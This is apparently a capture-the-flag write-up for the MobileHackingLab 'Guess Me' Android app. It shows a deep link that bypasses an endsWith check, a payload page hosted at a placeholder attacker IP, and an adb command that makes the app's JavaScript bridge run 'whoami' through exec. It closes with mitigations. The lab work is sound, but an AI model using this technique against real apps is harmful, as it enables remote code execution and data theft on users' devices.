







## Objective

**Exploit a Deep Link Vulnerability for Remote Code Execution:** The mission is to manipulate the deep link functionality within the "Guess Me" Android application to execute remote code and gain unauthorized access.

## Static Analysis

### Manifest Review

Starting with the `AndroidManifest.xml`:



We can identify two primary activities:

1. **`MainActivity`:** A simple guessing game (guessing a number from 1 to 100 with a maximum of 10 attempts). _Note: This can be easily beaten using a binary search technique._
2. **`WebviewActivity`:** The core focus of this writeup.
    
### `WebviewActivity` Analysis

During the `onCreate` method, after setting up the WebView layout, two key methods are invoked:


#### 1. `loadAssetIndex()`

Let's start with `loadAssetIndex()`:




This method loads the default `index.html` file located at `Resources/assets/index.html`.


- Looking inside this HTML file, we see it utilizes a JavaScript interface (`androidbridge`) to call the `getTime()` method, passing the string `'date'` as an attribute.
- Tracing this method back to the **`MyJavaScriptInterface`** class:
    


- The implementation shows that `getTime()` uses the `exec()` function to execute the passed attribute directly as a system command.
    
>**The roadblock:** While this is a clear command execution sink, we do not have control over the input string being passed to it in the default execution flow. We need a way to control that input.
    

#### 2. `handledeeplink()`

Since the default asset doesn't give us control, we move to the second method. Let's analyze the `handledeeplink()` method:



It waits to receive an Intent, extracts the URI data, and passes it to a `check()` validation method.

- **If `check()` returns `false`:** It defaults back to calling the `loadAssetIndex()` method discussed above.
- **If `check()` returns `true`:** It triggers `loadDeeplink(uri)` using our provided input. Let's analyze these two methods:
    


### The Validation Logic (`check` & `loadDeeplink`)

To reach `loadDeeplink()`, our Intent must pass the `check()` method's validation requirements:

- **Scheme:** Must be either `https` or `mhl`.
- **Host:** Must equal `mobilehackinglab`.
- **Query Parameter:** Must contain a `url` parameter that ends with `mobilehackinglab.com`.

Once validated, `loadDeeplink()` simply takes the provided URI and loads it directly into the WebView.

# Exploitation Strategy

The strategy breaks down into two steps:

1. **Trigger the Deep Link:** Send an Intent to the activity containing a carefully crafted URI in the data field. This URI must satisfy all the `check()` conditions (scheme, host, and domain suffix) while redirecting the WebView to load our hosted HTML file instead of the safe domain.

2. **Host the Payload:** Create a server to host a custom HTML file (similar to the original `index.html`). Because we control this file, we can write JavaScript that passes our own malicious commands to the `getTime()` function, leveraging the `exec()` sink.
    
_(Try constructing the Intent and payload yourself. If you get stuck, continue reading below for the exact bypass methodology.)_

## Exploitation Process

### Step 1: Craft the Malicious Deep Link

The attacker constructs a deep link designed to bypass all three validation checks:

```url
mhl://mobilehackinglab?url=http://<ATTACKER_IP>:8080/index.html?dummy=mobilehackinglab.com
```


_(Replace `<ATTACKER_IP>` with the attacker's machine IP address.)_

- **Scheme (`mhl`)** → Passes validation.
- **Host (`mobilehackinglab`)** → Passes validation.
- The `url` parameter ends with `mobilehackinglab.com` (thanks to the `dummy` parameter) → Passes the `endsWith` check.

---

### Step 2: Host the Malicious Payload

Create an `index.html` file containing the following code. The JavaScript inside abuses the exposed `AndroidBridge` interface to execute arbitrary system commands.

```html

<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <meta name="viewport" content="width=device-width, initial-scale=1.0">  
</head>  
<body>  
  
<p id="result">Thank you for visiting</p>  
  
<!-- Add a hyperlink with onclick event -->  
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>  
  
<script>  
  
    function loadWebsite() {  
       window.location.href = "https://www.mobilehackinglab.com/";  
    }  
  
    // Fetch and display the time when the page loads  
    var result = AndroidBridge.getTime("whoami");  
    var lines = result.split('\n');  
    var timeVisited = lines[0];  
    var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;  
    document.getElementById('result').innerText = fullMessage;  
  
</script>  
  
</body>  
</html>
```

In the same directory, start a simple Python HTTP server to serve the payload:

```shell
python3 -m http.server 8080
```

---

### Step 3: Trigger the Exploit via ADB

With the emulator running, send the crafted intent using ADB to force the vulnerable app to load the malicious URL:

```shell
adb shell am start -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http://192.168.1.5:8080/index.html?dummy=mobilehackinglab.com"
```

When the app processes the deep link, the WebView loads the attacker's HTML page. The embedded JavaScript calls `AndroidBridge.getTime("whoami")`, which executes the `whoami` command on the Android system. The result `u0_a156` is displayed inside the app.




# Impact

- **Remote Code Execution (RCE)** – Attacker can run any OS command on the device via the exposed `AndroidBridge` interface.

- **Data Theft & Permission Abuse** – Steals stored credentials, session tokens, and abuses app permissions (SMS, location, camera, contacts) to spy or extract private data.
    
- **Device & Network Compromise** – Can install malware, take over the device, or pivot into internal corporate networks if connected via VPN/Wi-Fi.

# Mitigation

- **Fix Validation Logic** – Replace `endsWith` with strict URI parsing; validate the inner URL's scheme (`https`) and exact host (`mobilehackinglab.com`).
    
- **Restrict JavaScript Bridge** – Remove `AndroidBridge` entirely, or refactor it to expose only predefined, safe methods—never pass raw user input to `Runtime.exec()`.
    
- **Harden WebView** – Disable file access, restrict JavaScript to trusted origins, and sanitize all incoming deep-link parameters.
    

# Conclusion

- **Root Cause** – A logic bypass (`endsWith` vulnerability) paired with an overprivileged JS interface allows attackers to load malicious HTML and execute system commands via a crafted deep link.
    
- **Action Required** – Patch immediately with the fixes above, and conduct a full security review of all WebView components and exported activities to eliminate similar flaws.


